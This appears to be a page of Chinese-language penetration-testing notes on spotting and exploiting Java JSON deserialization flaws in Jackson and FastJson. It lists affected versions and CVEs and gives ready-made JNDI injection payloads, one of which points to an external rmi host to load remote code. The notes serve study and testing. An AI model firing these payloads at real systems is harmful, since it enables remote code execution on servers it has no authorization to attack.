 
---
黑盒检测：Java应用 请求参数数据以json/xml格式发送测试

黑盒判断：通过提交数据报错信息得到什么组件
xml格式(xstream) 或 json 格式（fastjson jackson）

白盒：直接看引用组件版本

# Jackson

当下流行的json解释器，主要负责处理Json的序列化和反序列化。
历史漏洞：https://avd.aliyun.com/search?q=Jackson

1、代码执行 (CVE-2020-8840)

2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2

```java
String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/Exploit\"}]";
```

2、代码执行 （CVE-2020-35728）

FasterXML jackson-databind 2.x < 2.9.10.8

```java
String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"rmi://47.94.236.117:1099/gtaafz\"}]";
```

# FastJson

阿里巴巴公司开源的json解析器，它可以解析JSON格式的字符串，支持将JavaBean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。

历史漏洞：https://avd.aliyun.com/search?q=fastjson

利用POC：https://github.com/kezibei/fastjson_payload

FastJson <= 1.2.24

```java
String payload = "{\r\n"

+ " \"a\": {\r\n"

+ " \"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \r\n"

+ " \"dataSourceName\": \"rmi://127.0.0.1:1099/Object\", \r\n"

+ " \"autoCommit\": true\r\n"

+ " }\r\n"

+ "}";
```
